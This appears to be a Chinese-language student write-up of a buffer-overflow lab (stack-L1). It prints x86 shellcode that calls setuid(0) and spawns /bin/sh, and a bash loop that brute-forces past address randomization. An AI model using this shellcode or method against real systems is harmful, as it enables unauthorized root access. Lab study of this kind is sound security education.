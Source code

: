 
先把shell弄回来，在原本的dash里检测到有效用户effective uid不等于真实用户real uid是会减低权限。之前通过软连接link到另一个shell，现在重新链接回来指向dash
```bash
sudo ln -sf /bin/dash /bin/sh
```

在shellcode里加上setuid的汇编指令，然后验证

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// Binary code for setuid(0)
// 64-bit:  "\x48\x31\xff\x48\x31\xc0\xb0\x69\x0f\x05"
// 32-bit:  "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80"

const char shellcode[] =
#if __x86_64__
    "\x48\x31\xff\x48\x31\xc0\xb0\x69\x0f\x05"
    "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
    "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
    "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
    "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80"
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
    ;

int main(int argc, char **argv) {
  char code[500];

  strcpy(code, shellcode);
  int (*func)() = (int (*)())code; // 将缓冲区地址强制转换成函数指针

  func(); //调用函数指针执行程序
  return 1;
}
```

## Task 8: Defeating Address Randomization

打开地址随机化

```sh
sudo /sbin/sysctl -w kernel.randomize_va_space=2
```

文档给的bash脚本程序，看这个程序，像是没变动badfile的话，大概是疯狂执行这个程序，然后让地址随机到badfile的位置

```bash
#!/bin/bash
SECONDS=0
value=0
while true; do
value=$(( $value + 1 ))
duration=$SECONDS
min=$(($duration / 60))
sec=$(($duration % 60))
echo "$min minutes and $sec seconds elapsed."
echo "The program has been running $value times so far."
./stack-L1
done
```

